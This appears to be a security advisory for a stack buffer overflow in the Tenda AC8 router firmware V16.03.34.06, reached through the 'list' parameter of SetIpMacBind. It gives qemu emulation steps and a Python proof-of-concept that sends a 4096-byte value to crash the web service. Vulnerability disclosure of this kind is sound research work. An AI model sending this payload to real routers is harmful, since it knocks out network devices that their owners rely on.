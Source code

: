 sub\_49E098
-----------

Tenda AC8 version **V16.03.34.06** was discovered to contain a stack overflow via the list parameter in the function sub\_49E098.

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

![image](https://github.com/user-attachments/assets/3690ce25-4788-4dce-b1aa-e1281fe1b1e1)


In lines 30 and 38 of the function, data is read from a user-supplied parameter passed by the caller function. However, the variable is passed without any length validation, which could result in a stack-based buffer overflow at either line 30 or 38. Consequently, an attacker could exploit this vulnerability by crafting a malicious request, potentially leading to a denial of service (DoS) condition or even remote code execution (RCE). This poses a significant security risk, as it allows an attacker to crash the system or execute arbitrary code remotely.

### PoC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```text-plain
import requests

headers = {
    'Host': '192.168.142.100',
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
ip = "192.168.142.100"
ipaddr = "1" * 0x1000
data = 'bindnum=1&list=deviceName1\r10:11:11:11:11:11\r' + ipaddr

response = requests.post(
    f'http://{ip}/goform/SetIpMacBind', 
    headers=headers, 
    data=data, 
    verify=False)
```

![image](https://github.com/user-attachments/assets/a7b13097-da23-476b-801e-4bc199555d14)
